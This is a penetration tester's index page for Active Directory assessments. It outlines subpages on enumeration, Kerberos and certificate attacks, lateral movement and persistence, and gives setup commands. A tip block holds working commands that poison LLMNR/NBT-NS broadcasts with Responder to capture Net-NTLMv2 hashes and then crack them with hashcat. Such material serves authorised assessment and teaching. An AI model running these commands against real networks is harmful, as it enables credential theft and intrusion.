

# Active Directory and internal networks

This is my working playbook for internal network and Active Directory assessments: from an unauthenticated foothold in a network segment to full forest compromise.

---

## The AD Attack Chain



---

## Pages in this section

  - **[AD Enumeration & BloodHound CE](ad-enumeration-bloodhound.md)** — Null sessions, LDAP/LDAPS enumeration, SMB share spidering, ADIDNS abuse, BloodHound CE collection and attack-path shortest-path analysis.

  - **[Kerberos & Credential Attacks](kerberos-credential-attacks.md)** — AS-REP Roasting, Kerberoasting, Silver/Golden Tickets, unconstrained & constrained delegation, Net-NTLMv2 relay, and password spraying without lockouts.

  - **[ADCS (ESC1–ESC8) & ACL Abuse](adcs-delegation-acl.md)** — Certificate template misconfigurations, NTLM relay to ADCS HTTP endpoints, PKINIT certificates, Shadow Credentials, RBCD, and GenericAll/WriteDACL chains.

  - **[Lateral Movement & Pivoting](lateral-movement-pivoting.md)** — Pass-the-Hash/Key/Ticket, PsExec/WMI/WinRM/DCOM execution, Ligolo-ng, Chisel and SOCKS proxies for deep network pivoting.

  - **[Domain Dominance & Persistence](domain-dominance-persistence.md)** — DCSync, NTDS.dit extraction, Golden/Silver/Diamond tickets, SID History injection, AdminSDHolder, Golden GMSA, and forest/trust attacks.

---

## Environment setup

```bash
# --- /etc/hosts baseline (always add DC + target hosts) ---
echo "<DC_IP> <DOMAIN> dc01.<DOMAIN> dc01" | sudo tee -a /etc/hosts
# --- Kerberos client config (required for impacket -k / Rubeus workflow) ---
cat > /etc/krb5.conf << 'EOF'
[libdefaults]
    default_realm = CORP.LOCAL
    dns_lookup_realm = false
    dns_lookup_kdc = false
    rdns = false
    ticket_lifetime = 24h
    forwardable = true
[realms]
    CORP.LOCAL = { kdc = dc01.corp.local admin_server = dc01.corp.local }
[domain_realm]
    .corp.local = CORP.LOCAL
    corp.local = CORP.LOCAL
EOF
# --- Time sync (Kerberos requires < 5 min skew) ---
sudo ntpdate -u <DC_IP> || sudo rdate -n <DC_IP>
# --- Fingerprint the DC quickly ---
nmap -Pn -p 53,88,135,139,389,445,464,636,3268,3269,5985,9389 -sV <DC_IP>
ldapsearch -x -H ldap://<DC_IP> -s base -b "" namingContexts # Confirm the base DN
```

!!! tip "Unauthenticated Foothold: LLMNR / NBT-NS / mDNS Poisoning"
    ```bash
    # Poison broadcasts and capture Net-NTLMv2 hashes on the internal network
    sudo responder -I eth0 -wv --lm -F
    # Crack captured hashes (mode 5600) or relay them (see Kerberos page)
    hashcat -m 5600 ntlmv2_hashes.txt /usr/share/wordlists/rockyou.txt
    ```